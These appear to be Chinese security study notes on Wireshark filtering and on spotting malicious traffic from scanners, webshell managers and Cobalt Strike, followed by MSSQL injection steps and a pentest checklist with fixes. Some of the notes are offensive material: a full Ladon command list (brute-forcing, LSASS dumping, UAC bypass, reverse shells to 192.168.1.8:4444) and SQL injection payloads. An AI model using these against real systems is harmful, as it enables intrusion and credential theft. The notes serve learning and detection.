https://xz.aliyun.com/t/13000?time__1311=GqmhBKYK7IZD%2FD0lb5b4rD9DAo%3DFDfhbD
```

### 数据包筛选

#### 筛选指定流量

基础筛选


可以看到，使用查询语句筛选出了来源ip和目的ip包含我们搜选ip的条

如果要搜索我们ip只要来源ip是这个ip的

我们可以


可以看到就只显示了来源ip与我们搜索相关联的

如果要搜索出ip 语法后改为dst即可


#### 使用逻辑运算符

在实际应用中我们可以会同时需要筛选很多ip，并且对具体的情况有一些要求，则可以使用逻辑运算符来配合使用，增加筛选的灵活性

Wireshark可以使用一下几种逻辑运算符：

```
&& || !=
```

（1）要求筛选出原ip地址为192.168.43.21且目标地址为 20.210.85.71的流量包


（2）要求筛选出原ip地址为192.168.43.21或源地址为 20.210.85.71的流量包


（3）要求筛选出原ip地址不为192.168.43.21的流量包



#### http模式过滤

在web攻击流量分析中，http显得尤为重要，根据攻击特点过滤http流量能更准确定位攻击；如常见上传webshell使用POST请求、指定URI可疑发现一些上传路径或者后台等，另也可以从包含的一些关键特征判断使用的工具、木马、脚本等。

注：下面的所有包都是使用192.168.159.1访问192.168.159.202服务器的流量包

（1）http请求方式为GET语法：

```
http.request.method==”GET”
```

 我们使用本地浏览器访问192.168.159.202?id=1来模拟一个GET访问


（2）http请求方式为POST语法：

```cobol
http.request.method==”POST”
```




（3）请求的URI为/login.php语法：

```cobol
http.request.uri==”/login.php”
```

模拟这个访问也很简单直接在浏览器中输入： http://192.168.159.202/login.php



（4）请求的http中包含sqlmap的语法：

```sql
http contains “sqlmap”
```





（5）请求方式为GET且请求中包含UA信息：

```cobol
http.request.method==”GET” && http contain “User-Agent”
```



#### MAC地址过滤

MAC地址就和ip地址一样是都是网络通信中使用的标识符，在Wireshark中筛选MAC地址与筛序ip地址的形式是差不多的

可以在cmd命令行中输入ipconfig/all来查看本机网卡所对应的mac地址

（1）查看目标MAC地址为00-50-56-C0-00-08的流量包


（2）查看源MAC地址为00-50-56-C0-00-08的流量包


#### 端口筛选

可以通过指定筛选常见端口如445、1433、3306等可以定位相关特殊的服务。

（1）tcp.dstport == 80 筛选tcp协议的目标端口为80 的流量包


（2）tcp.srcport == 80 筛选tcp协议的源端口为80 的流量包


#### 协议筛选

协议过滤可以根据相关服务使用的协议类型进行

```cobol
tcp 筛选协议为tcp的流量包

udp 筛选协议为udp的流量包

arp/icmp/http/ftp/dns/ip 筛选协议为arp/icmp/http/ftp/dns/ip的流量包
```

这里就以icmp包为例：

我们使用本地192.168.159.1ping192.168.159.202来产生icmp流量包





#### 包长度筛选

## wireshark常见恶意流量分析

### 网站流量特征分析

#### dirsearch

主要是一个python写的目录扫描工具

主要特征： 通过显示过滤器,过滤 http.request数据流，可以在数据流中看到大量http GET请求再对路径以及文件进行爆破，可以发现在info中的路径有很明显的顺序,例如dir将a开头的路径跑完后就开始跑b开头的路径如此反复,所以在遇到有类似特征的流量，可以初步判断为dirsearch攻击。


可以看到很明显的目录扫描流量条

**示例**


#### sqlmap

主要是用户对于sql注入漏洞的扫描和利用

主要特征：依然是通过wireshark的显示过滤器过滤sqlmap攻击流量包 过滤 http.request后，可以发现info中有大量的sql语句。


流量


只要攻击者没有设置，在流量的请求头可以看到很明显的sqlmap特征


如果需要过滤sqlmap的数据流 使用 http.user_agent contains sqlmap 可以将包含sql的数据流过滤出来，进行下一步分析。

### 漏洞扫描器流量分析

#### dwvs


#### nmap

主要用于端口扫描

主要特征：使用显示过滤器过滤namp流量包

```
tcp && ip.dst == [namp扫描的ip]
```

可以发现有大量的tcp包 在对目标ip进行端口访问


**示例流量：**


#### aazhen(thinkphp)漏洞扫描器


请求带个think尝试命令执行

#### ladon综合扫描工具

##### 概述

```
大型内网渗透扫描器&Cobalt Strike，Ladon7.2内置94个模块，包含信息收集/存活主机/端口扫描/服务识别/密码爆破/漏洞检测/漏洞利用。漏洞检测含MS17010/SMBGhost/Weblogic/ActiveMQ/Tomcat/Struts2，密码口令爆破(Mysql/Oracle/MSSQL)/FTP/SSH(Linux)/VNC/Windows(IPC/WMI/SMB/Netbios/LDAP/SmbHash/WmiHash/Winrm),远程执行命令(wmiexe/psexec/atexec/sshexec/webshell),降权提权Runas、GetSystem，Poc/Exploit,支持Cobalt Strike 3.X-4.0
```

##### **使用方法**

```
005 ICMP扫描存活主机
Ladon 192.168.1.8/24 Ping
006 SMBGhost漏洞检测 CVE-2020-0796 （IP、机器名、漏洞编号、操作系统版本）
Ladon 192.168.1.8/24 SMBGhost
007 扫描Web信息/Http服务
Ladon 192.168.1.8/24 WebScan
008 扫描C段站点URL域名
Ladon 192.168.1.8/24 UrlScan
009 扫描C段站点URL域名
Ladon 192.168.1.8/24 SameWeb
010 扫描子域名、二级域名
Ladon baidu.com SubDomain
011 域名解析IP、主机名解析IP
Ladon baidu.com DomainIP Ladon baidu.com HostIP
012 域内机器信息获取
Ladon AdiDnsDump 192.168.1.8 （Domain IP）
013 扫描C段端口、指定端口扫描
Ladon 192.168.1.8/24 PortScan Ladon 192.168.1.8 PortScan 80,445,3389
014 扫描C段WEB以及CMS（75种Web指纹识别）
Ladon 192.168.1.8/24 WhatCMS
015 扫描思科设备
Ladon 192.168.1.8/24 CiscoScan Ladon http://192.168.1.8 CiscoScan
016 枚举Mssql数据库主机 （数据库IP、机器名、SQL版本）
Ladon EnumMssql
017 枚举网络共享资源 （域、存活IP、共享路径）
Ladon EnumShare
018 扫描LDAP服务器
Ladon 192.168.1.8/24 LdapScan
019 扫描FTP服务器
Ladon 192.168.1.8/24 FtpScan
暴力破解/网络认证/弱口令/密码爆破/数据库/网站后台/登陆口/系统登陆
密码爆破详解参考SSH：http://k8gege.org/Ladon/sshscan.html
020 445端口 SMB密码爆破(Windows)
Ladon 192.168.1.8/24 SmbScan
021 135端口 Wmi密码爆破(Windowns)
Ladon 192.168.1.8/24 WmiScan
022 389端口 LDAP服务器、AD域密码爆破(Windows)
Ladon 192.168.1.8/24 LdapScan
023 5985端口 Winrm密码爆破(Windowns)
Ladon 192.168.1.8/24 WinrmScan.ini
024 445端口 SMB NTLM HASH爆破(Windows)
Ladon 192.168.1.8/24 SmbHashScan
025 135端口 Wmi NTLM HASH爆破(Windows)
Ladon 192.168.1.8/24 WmiHashScan
026 22端口 SSH密码爆破(Linux)
Ladon 192.168.1.8/24 SshScan Ladon 192.168.1.8:22 SshScan
027 1433端口 Mssql数据库密码爆破
Ladon 192.168.1.8/24 MssqlScan
028 1521端口 Oracle数据库密码爆破
Ladon 192.168.1.8/24 OracleScan
029 3306端口 Mysql数据库密码爆破
Ladon 192.168.1.8/24 MysqlScan
030 7001端口 Weblogic后台密码爆破
Ladon http://192.168.1.8:7001/console WeblogicScan Ladon 192.168.1.8/24 WeblogicScan
031 5900端口 VNC远程桌面密码爆破
Ladon 192.168.1.8/24 VncScan
032 21端口 Ftp服务器密码爆破
Ladon 192.168.1.8/24 FtpScan
033 8080端口 Tomcat后台登陆密码爆破
Ladon 192.168.1.8/24 TomcatScan Ladon http://192.168.1.8:8080/manage TomcatScan
034 Web端口 401基础认证密码爆破
Ladon http://192.168.1.8/login HttpBasicScan
035 445端口 Impacket SMB密码爆破(Windowns)
Ladon 192.168.1.8/24 SmbScan.ini
036 445端口 IPC密码爆破(Windowns)
Ladon 192.168.1.8/24 IpcScan.ini
漏洞检测/漏洞利用/Poc/Exp
037 SMB漏洞检测(CVE-2017-0143/CVE-2017-0144)
Ladon 192.168.1.8/24 MS17010
038 Weblogic漏洞检测(CVE-2019-2725/CVE-2018-2894)
Ladon 192.168.1.8/24 WeblogicPoc
039 PhpStudy后门检测(phpstudy 2016/phpstudy 2018)
Ladon 192.168.1.8/24 PhpStudyPoc
040 ActiveMQ漏洞检测(CVE-2016-3088)
Ladon 192.168.1.8/24 ActivemqPoc
041 Tomcat漏洞检测(CVE-2017-12615)
Ladon 192.168.1.8/24 TomcatPoc
042 Weblogic漏洞利用(CVE-2019-2725)
Ladon 192.168.1.8/24 WeblogicExp
043 Tomcat漏洞利用(CVE-2017-12615)
Ladon 192.168.1.8/24 TomcatExp
044 Struts2漏洞检测(S2-005/S2-009/S2-013/S2-016/S2-019/S2-032/DevMode)
Ladon 192.168.1.8/24 Struts2Poc
FTP下载、HTTP下载
045 HTTP下载
Ladon HttpDownLoad http://k8gege.org/Download/Ladon.rar
046 Ftp下载
Ladon FtpDownLoad 127.0.0.1:21 admin admin test.exe
加密解密(HEX/Base64)
047 Hex加密解密
Ladon 123456 EnHex Ladon 313233343536 DeHex
048 Base64加密解密
Ladon 123456 EnBase64 Ladon MTIzNDU2 DeBase64
网络嗅探
049 Ftp密码嗅探
Ladon FtpSniffer 192.168.1.5
050 HTTP密码嗅探
Ladon HTTPSniffer 192.168.1.5
051 网络嗅探
Ladon Sniffer
密码读取
052 读取IIS站点密码、网站路径
Ladon IISpwd
DumpLsass内存密码
Ladon DumpLsass
信息收集
053 进程详细信息
Ladon EnumProcess Ladon Tasklist
054 获取命令行参数
Ladon cmdline Ladon cmdline cmd.exe
055 获取渗透基础信息
Ladon GetInfo Ladon GetInfo2
056 .NET & PowerShell版本
Ladon NetVer Ladon PSver Ladon NetVersion Ladon PSversion
057 运行时版本&编译环境
Ladon Ver Ladon Version
远程执行(psexec/wmiexec/atexec/sshexec)
445端口 PSEXEC远程执行命令（交互式）
net user \192.168.1.8 k8gege520 /user:k8gege Ladon psexec 192.168.1.8 psexec> whoami nt authority\system
058 135端口 WmiExec远程执行命令 （非交互式）
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami
059 445端口 AtExec远程执行命令（非交互式）
Ladon wmiexec 192.168.1.8 k8gege k8gege520 whoami
060 22端口 SshExec远程执行命令（非交互式）
Ladon SshExec 192.168.1.8 k8gege k8gege520 whoami Ladon SshExec 192.168.1.8 22 k8gege k8gege520 whoami
061 JspShell远程执行命令（非交互式）
Usage：Ladon JspShell type url pwd cmd Example: Ladon JspShell ua http://192.168.1.8/shell.jsp Ladon whoami
062 WebShell远程执行命令（非交互式）
Usage：Ladon WebShell ScriptType ShellType url pwd cmd
Example: Ladon WebShell jsp ua http://192.168.1.8/shell.jsp Ladon whoami
Example: Ladon WebShell aspx cd http://192.168.1.8/1.aspx Ladon whoami
Example: Ladon WebShell php ua http://192.168.1.8/1.php Ladon whoami
提权降权
063 BypassUac 绕过UAC执行,支持Win7-Win10
Ladon BypassUac c:\1.exe Ladon BypassUac c:\1.bat
064 GetSystem 提权或降权运行程序
Ladon GetSystem cmd.exe Ladon GetSystem cmd.exe explorer
065 Runas 模拟用户执行命令
Ladon Runas user pass cmd
其它功能
066 Win2008一键启用.net 3.5
Ladon EnableDotNet
067 获取内网站点HTML源码
Ladon gethtml http://192.168.1.1
068 检测后门
Ladon CheckDoor Ladon AutoRun
069 获取本机内网IP与外网IP
Ladon GetIP
070 一键迷你WEB服务器
Ladon WebSer 80 Ladon web 80
反弹Shell
071 反弹TCP NC Shell
Ladon ReverseTcp 192.168.1.8 4444 nc
072 反弹TCP MSF Shell
Ladon ReverseTcp 192.168.1.8 4444 shell
073 反弹TCP MSF MET Shell
Ladon ReverseTcp 192.168.1.8 4444 meter
074 反弹HTTP MSF MET Shell
Ladon ReverseHttp 192.168.1.8 4444
075 反弹HTTPS MSF MET Shell
Ladon ReverseHttps 192.168.1.8 4444
076 反弹TCP CMD & PowerShell Shell
Ladon PowerCat 192.168.1.8 4444 cmd Ladon PowerCat 192.168.1.8 4444 psh
077 反弹UDP Cmd & PowerShell Shell
Ladon PowerCat 192.168.1.8 4444 cmd udp Ladon PowerCat 192.168.1.8 4444 psh udp
078 RDP桌面会话劫持（无需密码）
Ladon RDPHijack 3 Ladon RDPHijack 3 console
079 OXID定位多网卡主机
Ladon 192.168.1.8/24 EthScan Ladon 192.168.1.8/24 OxidScan
080 查看用户最近访问文件
Ladon Recent
081 添加注册表Run启动项
Ladon RegAuto Test c:\123.exe
082 AT计划执行程序(无需时间)(system权限)
Ladon at c:\123.exe Ladon at c:\123.exe gui
083 SC服务加启动项&执行程序(system权限）
Ladon sc c:\123.exe Ladon sc c:\123.exe gui Ladon sc c:\123.exe auto ServerName
084 MS16135提权至SYSTEM
Ladon ms16135 whoami
085 BadPotato服务用户提权至SYSTEM
Ladon BadPotato cmdline
086 SweetPotato服务用户提权至SYSTEM
Ladon SweetPotato cmdline
087 whoami查看当前用户权限以及特权
Ladon whoami
088 Open3389一键开启3389
Ladon Open3389
089 RdpLog查看3389连接记录
Ladon RdpLog
090 QueryAdmin查看管理员用户
Ladon QueryAdmin
091 激活内置管理员Administrator
Ladon ActiveAdmin
092 激活内置用户Guest
Ladon ActiveGuest
093 查看本机命名管道
Ladon GetPipe
094 139端口Netbios协议Windows密码爆破
Ladon 192.168.1.8/24 NbtScan
```

##### 示例

001、多协议探测存活主机 （IP、机器名、MAC地址、制造商），直接输入要扫描的ip段，选择OnlinePC


002、多协议识别操作系统 （IP、机器名、操作系统版本、开放服务），输入ip地址，选择OsScan


003，扫描存活主机



004、扫描SMB漏洞MS17010


#### laravel框架漏洞

laravel框架漏洞






#### weblogic tool


直攻7001

### webshell管理工具流量特征分析

#### 蚁剑

主要特征：蚁剑是明文传输（即使使用了加密与编码，也会有包传输密码协商过程，该过程也会有明文存在）即：在post包中的html可以看到传入的参数 观察多个POST包中可以发现html下属的form item都有一个display_errors


可以看到有比较明显的display_errors

右键，选择作为过滤器应用中选中


将显示过滤器中多余的信息删去，只留下 urlencoded-form.value contains "display_errors"


然后在追踪http 通过url解密，就可以实现分析攻击者的操作，溯源等操作


#### 冰蝎

也是一个webshell管理工具

主要特征： 冰蝎2.0，3.0，4.0版本之间各有差异
例如4.0的特征：
在4.0更新的源代码中，定义了14个user-agen

```
"Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36",
"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0",
"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36",
"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36 Edg/99.0.1150.55",
"Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36",
"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0",
"Mozilla/5.0 (Windows NT 10.0) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/84.0.4147.125 Safari/537.36",
"Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/84.0.4147.125 Safari/537.36",
"Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:79.0) Gecko/20100101 Firefox/79.0",
"Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko"
```

大部分为第一个user-agent


如果需要拦截这个攻击，可以在防火墙中拦截Chrome/89.0.4389.114 这个版本的流量 因为现在chrome更新到100.xx的版本了 只要攻击者或者极少用户使用，影响不大



**2.请求体头部字节与响应头部字节不会变化**


可以发现他们请求体中的key值开头一直不变 这是在实际情况是不可能的 所以在看到此特征的流量可以直接判断为冰蝎。

#### 哥斯拉

也是一款webshell管理工具

```
主要特征：哥斯拉客户端与 shell 建连初期的三个固定行为特征，且顺序出现在同一个 TCP 连接中。可以总结为：
特征：发送一段固定代码（payload），http 响应为空
特征：发送一段固定代码（test），执行结果为固定内容
特征：发送一段固定代码（getBacisInfo）
先发送一段pass的加密密文
```



然后目标服务器会返回一串空回复


可以看到响应包是一串空回复

在通过交互2次 返回固定值 密文


哥斯拉的响应体中有一个特征是前16位和后16为会组成一个32位md5 正则匹配类似于(?i:[0-9A-F]{16})[\w+/]{4,}=?=?(?i:[0-9A-F]{16})
可以在返回包中的密文发现 前16和后16为一个32位的MD5值


### 常见c2远控服务器特征流量分析

#### metasploit


#### cobaltstrike

cs内网操作，shell相关，用于模拟网络攻击、横向移动、特权升级、持久化访问以及命令和控制等任务。

主要特征：
cs使用的http协议 cs流量包的第一个GET请求 有一个随机编码 IPYK转换为ascii 之和与 256 取余计算值等于 92 ，下载stage payload的过程uri符合 checksum8 规则，即：路径的 ascii 之和与 256 取余计算值等于 92



(2) c2服务器如果没有任务下发，会有规律的请求响应间隔，用于维持连接，比如这里是每间隔3s，发一次包（间隔时间可以在cs内设置） 有些响应在4s，是因为网络有延迟不影响


如果cs服务器有任务下发，则会加密放在http心跳包的cookie里面，下发后，靶机完成指令，也同样会返回一个post包都加密并隐藏在cookie中。

```
！@#￥%……&*（）——+&&7L
```

## MSsql注入

### 概述

SQL Server 是一个**关系数据库管理系统**。经常与asp或者aspx一起使用

### 详解

#### 系统自带库

MSSQL安装后默认带了6个数据库，其中4个系统级库：master，model，tempdb和msdb；2个示例库：Northwind Traders和pubs。

```
master：主要为系统控制数据库，其中包括了所有配置信息、用户登录信息和当前系统运行情况。
model：模版数据库
tempdb：临时容器
msdb：主要为用户使用，所有的告警、任务调度等都在这个数据库中。
```

#### 系统自带表

MSSQL数据库与Mysql数据库一样，有安装自带的数据表sysobjects和syscolumns等，其中需要了解的就是这两个数据表

```
sysobjects：记录了数据库中所有表，常用字段为id、name和xtype。
syscolumns：记录了数据库中所有表的字段，常用字段为id、name和xtype。

//id为标识，name为对应的表名和字段名，xtype为所对应的对象类型
```

### 权限问题

sqlserver存在三种权限：

```
sa:能对所有库操作
dbowner:只能对所拥有的库操作
public
```

Msssql的默认端口号是1433，oracle的端口号是1521，mysql是3306，在windows下通过netstat -an -p tcp -o指令就能看到，并且可以查看到对于的进程pid，通过任务管理器可以查看到进程是 谁。

mssql数据库中有两种用户：windows系统用户和sql用户。windows系统用户只能本地连接，sql用户可以本地也可以远程

### 注入流程

```
1、判断注入点
' 单引号是否报错
and 1=1 / and 1=2 页面是否相同

2、判断数据库类型是否为MSSQL
and (select count(*) from sysobjects)>0
and exists(select * from sysobjects)

3、判断注入点权限
//当前是否为sa
and exists(select is_srvrolemember('sysadmin'))
或and (select is_srvrolemember('sysadmin'))>0
//判断当前用户写文件、读文件的权限
and exists(select is_srvrolemember('db_owner'))
或and (select is_srvrolemember('db_owner'))>0
//判断是否有public权限，可以爆破表
and exists(select is_srvrolemember('public'))
或and (select is_srvrolemember('public'))>0

4、查询数据库名
db_name(N)  	表示当前数据库，其中的参数表示第N个数据库，从0开始

5、查询当前用户

6、查表名

7、爆数据


//常用函数
db_name(N)  	表示当前数据库，其中的参数表示第N个数据库，从0开始
@@version			数据库版本
User_Name() 	当前用户
host_name()		计算机名称

//是否站库分离,报错是站库分离
1' and ((select host_name())=(select @@SERVERNAME))--+

//排序&获取下一条数据
mssql数据库中没有limit排序获取字段，但是可以使用top 1来显示数据中的第一条数据，后面与Oracle数据库注入一样，使用<>或not in 来排除已经显示的数据，获取下一条数据。但是与Oracle数据库不同的是使用not in的时候后面需要带上(‘’)，类似数组，也就是不需要输入多个not in来获取数据，这可以很大程序减少输入的数据量，如下：
//使用<>获取数据 <> : 不等于
union all select top 1 null,id,name,null from dbo.syscolumns where id='5575058' and name<>'id' and name<>'username'--#
//使用not in获取数据
union all select top 1 null,id,name,null from dbo.syscolumns where id='5575058' and name not in ('id','username')--#
```

#### 联合注入

# 7.17

学习文章：

```
https://blog.csdn.net/suruoxun/article/details/139530306
```

## 渗透测试手法

### 01信息搜集

#### 域名搜集

##### 域名ip端口

**域名信息查询：**信息可用于后续渗透



**IP信息查询：**

确认域名对应IP，确认IP是否真实，确认通信是否正常

**端口查询：**

用nmap等工具进行端口扫描，看端口开放的情况

#### 指纹识别

其实就是网站的信息。比如通过可以访问的资源，如网站首页，查看源代码:

- 看看是否存在文件遍历的漏洞（如图片路径，再通过../遍历文件）
- 是否使用了存在漏洞的框架（如果没有现成的就自己挖）

```
源代码，文件遍历，漏洞框架
```

### 02漏洞扫描

#### 主机扫描

**Nessus**
经典主机漏扫工具，看看有没有CVE漏洞：



#### web扫描

- AWVS（Acunetix | Website Security Scanner）扫描器


扫描器少扫，危害较大，可以手测着

### 03渗透测试

#### 弱口令漏洞

**漏洞描述**
目标网站管理入口（或数据库等组件的外部连接）使用了容易被猜测的简单字符口令、或者是默认系统账号口令。

**渗透测试**
**① 如果不存在验证码，则直接使用相对应的弱口令字典使用burpsuite 进行爆破**
**② 如果存在验证码，则看验证码是否存在绕过、以及看验证码是否容易识别**

```
是否存在单一报错:比如密码错误，账号错误这种

是否存在可以无限次的试错，就可以无限次的报错

验证码是否可以重复使用
```

风险评级：高风险

**安全建议**

```
① 默认口令以及修改口令都应保证复杂度，比如：大小写字母与数字或特殊字符的组合，口令长度不小于8位等
② 定期检查和更换网站管理口令
```


#### 文件下载漏洞

**漏洞描述**
一些网站由于业务需求，可能提供文件查看或下载的功能，如果对用户查看或下载的文件不做限制，则恶意用户就能够查看或下载任意的文件，可以是**源代码文件、敏感文件**等。

**渗透测试**
**① 查找可能存在文件包含的漏洞点，比如js，css等页面代码路径**
**② 看看有没有文件上传访问的功能**
**③ 采用../来测试能否夸目录访问文件**

风险评级：高风险

**安全建议**

```
① 采用白名单机制限制服务器目录的访问，以及可以访问的文件类型(小心被绕过)
② 过滤【./】等特殊字符
③ 采用文件流的访问返回上传文件（如用户头像），不要通过真实的网站路径。
```

**示例：**tomcat，默认关闭路径浏览的功能：

```
<param-name>listings</param-name> 
<param-value>false</param-value>
```


#### 任意文件上传漏洞

**漏洞描述**
目标网站允许用户向网站直接上传文件，但未对所上传文件的类型和内容进行严格的过滤。

**渗透测试**
**① 收集网站信息，判断使用的语言（PHP，ASP，JSP）**
**② 过滤规则绕过方法：文件上传绕过技巧**

风险评级：高风险

**安全建议**

```
① 对上传文件做有效文件类型判断，采用白名单控制的方法，开放只允许上传的文件型式；
② 文件类型判断，应对上传文件的后缀、文件头、图片类的预览图等做检测来判断文件类型，同时注意重命名（Md5加密）上传文件的文件名避免攻击者利用WEB服务的缺陷构造畸形文件名实现攻击目的；
③ 禁止上传目录有执行权限；
④ 使用随机数改写文件名和文件路径，使得用户不能轻易访问自己上传的文件。
```


#### 命令注入漏洞

漏洞描述
目标网站未对用户输入的字符进行特殊字符过滤或合法性校验，**允许用户输入特殊语句，导致各种调用系统命令的web应用，会被攻击者通过命令拼接、绕过黑名单等方式，在服务端运行恶意的系统命令**。

渗透测试

风险评级：高风险

安全建议

```
① 拒绝使用拼接语句的方式进行参数传递；
② 尽量使用白名单的方式（首选方式）；
③ 过滤危险方法、特殊字符，如：【|】【&】【；】【'】【"】等
```


#### SQL注入漏洞

**漏洞描述**
目标网站未对用户输入的字符进行特殊字符过滤或合法性校验，允许用户输入特殊语句查询后台数据库相关信息

**渗透测试**
**① 手动测试：判断是否存在SQL注入，判断是字符型还是数字型，是否需要盲注**
**② 工具测试：使用sqlmap等工具进行辅助测试**

风险评级：高风险

**安全建议**

```
① 防范SQL注入攻击的最佳方式就是将查询的逻辑与其数据分隔，如Java的预处理，PHP的PDO
② 拒绝使用拼接SQL的方式
```


#### 跨站脚本漏洞

**漏洞描述**
当应用程序的网页中包含不受信任的、未经恰当验证或转义的数据时，或者使用可以创建 HTML或JavaScript 的浏览器 API 更新现有的网页时，就会出现 XSS 缺陷。XSS 让攻击者能够在受害者的浏览器中执行脚本，并劫持用户会话、破坏网站或将用户重定向到恶意站点。

**三种XSS漏洞：**
**① 存储型：用户输入的信息被持久化，并能够在页面显示的功能，都可能存在存储型XSS，例如用户留言、个人信息修改等。**
**② 反射型：URL参数需要在页面显示的功能都可能存在反射型跨站脚本攻击，例如站内搜索、查询功能。**
**③ DOM型：涉及DOM对象的页面程序，包括：document.URL、document.location、document.referrer、window.location等**

**渗透测试**
**存储型，反射型，DOM型**

风险评级：高风险   

**安全建议**

```
① 不信任用户提交的任何内容，对用户输入的内容，在后台都需要进行长度检查，并且对【<】【>】【"】【'】【&】等字符做过滤
② 任何内容返回到页面显示之前都必须加以html编码，即将【<】【>】【"】【'】【&】进行转义。
```


#### **跨站请求伪造漏洞**

**漏洞描述**
CSRF，全称为Cross-Site Request Forgery，跨站请求伪造，是一种网络攻击方式，它可以在用户毫不知情的情况下，以用户的名义伪造请求发送给被攻击站点，从而在未授权的情况下进行权限保护内的操作，如修改密码，转账等。

**渗透测试**

风险评级：中风险（如果相关业务极其重要，则为高风险）

**安全建议**

```
① 使用一次性令牌：用户登录后产生随机token并赋值给页面中的某个Hidden标签，提交表单时候，同时提交这个Hidden标签并验证，验证后重新产生新的token，并赋值给hidden标签；
② 适当场景添加验证码输入：每次的用户提交都需要用户在表单中填写一个图片上的随机字符串；
③ 请求头Referer效验，url请求是否前部匹配Http(s)://ServerHost
④ 关键信息输入确认提交信息的用户身份是否合法，比如修改密码一定要提供原密码输入
⑤ 用户自身可以通过在浏览其它站点前登出站点或者在浏览器会话结束后清理浏览器的cookie；
```


#### 内部后台地址暴露

**漏洞描述**
一些**仅被内部访问的地址，对外部暴露**了，如：**管理员登陆页面；系统监控页面；API接口描述页面等**，这些会导致信息泄露，后台登陆等地址还可能被爆破。

**渗透测试**
**① 通过常用的地址进行探测，如login.html，manager.html，api.html等；**
**② 可以借用burpsuite和常规页面地址字典，进行扫描探测**

风险评级：中风险

**安全建议**

```
① 禁止外网访问后台地址
② 使用非常规路径（如对md5加密）
```


#### 信息泄露漏洞

**漏洞描述**
① 备份信息泄露：目标网站未及时删除编辑器或者人员在编辑文件时，产生的临时文件，或者相关备份信息未及时删除导致信息泄露。
② 测试页面信息泄露：测试界面未及时删除，导致测试界面暴露，被他人访问。
③ 源码信息泄露：目标网站文件访问控制设置不当，WEB服务器开启源码下载功能，允许用户访问网站源码。
④ 错误信息泄露：目标网站WEB程序和服务器未屏蔽错误信息回显，页面含有CGI处理错误的代码级别的详细信息，例如SQL语句执行错误原因，PHP的错误行数等。
⑤ 接口信息泄露：目标网站接口访问控制不严，导致网站内部敏感信息泄露。

**渗透测试**
**① 备份信息泄露、测试页面信息泄露、源码信息泄露，测试方法：使用字典，爆破相关目录，看是否存在相关敏感文件**
**② 错误信息泄露，测试方法：发送畸形的数据报文、非正常的报文进行探测，看是否对错误参数处理妥当。**
**③ 接口信息泄露漏洞，测试方法：使用爬虫或者扫描器爬取获取接口相关信息，看目标网站对接口权限是否合理**

风险评级：一般为中风险，如果源码大量泄漏或大量客户敏感信息泄露。

**安全建议**

```
① 备份信息泄露漏洞：删除相关备份信息，做好权限控制
② 测试页面信息泄露漏洞：删除相关测试界面，做好权限控制
③ 源码信息泄露漏洞：做好权限控制
④ 错误信息泄露漏洞：将错误信息对用户透明化，在CGI处理错误后可以返回友好的提示语以及返回码。但是不可以提示用户出错的代码级别的详细原因
⑤ 接口信息泄露漏洞：对接口访问权限严格控制
```


#### 失效的身份认证

**漏洞描述**
通常，通过错误使用应用程序的身份认证和会话管理功能，攻击者能够破译密码、密钥或会话令牌， 或者利用其它开发缺陷来暂时性或永久性冒充其他用户的身份。

**渗透测试**
**① 在登陆前后观察，前端提交信息中，随机变化的数据，总有与当前已登陆用户进行绑定的会话唯一标识，常见如cookie**
**② 一般现在网站没有那种简单可破解的标识，但是如果是跨站认证，单点登录场景中，可能为了开发方便而简化了身份认证**

风险评级：高风险

**安全建议**

```
① 使用强身份识别，不使用简单弱加密方式进行身份识别；
② 服务器端使用安全的会话管理器，在登录后生成高度复杂的新随机会话ID。会话ID不能在URL中，可以安全地存储，在登出、闲置超时后使其失效。
```


#### 失效的访问控制

**漏洞描述**
未对通过身份验证的用户实施恰当的访问控制。攻击者可以利用这些缺陷访问未经授权的功能或数据，例如：访问其他用户的帐户、查看敏感文件、修改其他用户的数据、更改访问权限等。

**渗透测试**
**① 登入后，通过burpsuite 抓取相关url 链接，获取到url 链接之后，在另一个浏览器打开相关链接，看能够通过另一个未登入的浏览器直接访问该功能点。**
**② 使用A用户登陆，然后在另一个浏览器使用B用户登陆，使用B访问A独有的功能，看能否访问。**

风险评级：高风险

**安全建议**

```
① 除公有资源外，默认情况下拒绝访问非本人所有的私有资源；
② 对API和控制器的访问进行速率限制，以最大限度地降低自动化攻击工具的危害；
③ 当用户注销后，服务器上的Cookie，JWT等令牌应失效；
④ 对每一个业务请求，都进行权限校验。
```


#### 安全配置错误

**漏洞描述**
应用程序缺少适当的安全加固，或者云服务的权限配置错误。
① 应用程序启用或安装了不必要的功能（例如：不必要的端口、服务、网页、帐户或权限）。
② 默认帐户的密码仍然可用且没有更改。
③ 错误处理机制向用户披露堆栈跟踪或其他大量错误信息。
④ 对于更新的系统，禁用或不安全地配置最新的安全功能。
⑤ 应用程序服务器、应用程序框架（如：Struts、Spring、ASP.NET）、库文件、数据库等没有进行相关安全配置。

**渗透测试**
**先对应用指纹等进行信息搜集，然后针对搜集的信息，看相关应用默认配置是否有更改，是否有加固过；端口开放情况，是否开放了多余的端口；**

风险评级：中风险

**安全建议**

```
搭建最小化平台，该平台不包含任何不必要的功能、组件、文档和示例。移除或不安装不适用的功能和框架。在所有环境中按照标准的加固流程进行正确安全配置。
```


#### 使用含有已知漏洞组件

**漏洞描述**
使用了不再支持或者过时的组件。这包括：OS、Web服务器、应用程序服务器、数据库管理系统（DBMS）、应用程序、API和所有的组件、运行环境和库。

**渗透测试**
**① 根据前期信息搜集的信息，查看相关组件的版本，看是否使用了不在支持或者过时的组件。一般来说，信息搜集，可通过http返回头、相关错误信息、应用指纹、端口探测（Nmap）等手段搜集。**
**② Nmap等工具也可以用于获取操作系统版本信息**
**③ 通过CVE，CNVD等平台可以获取当前组件版本是否存在漏洞**

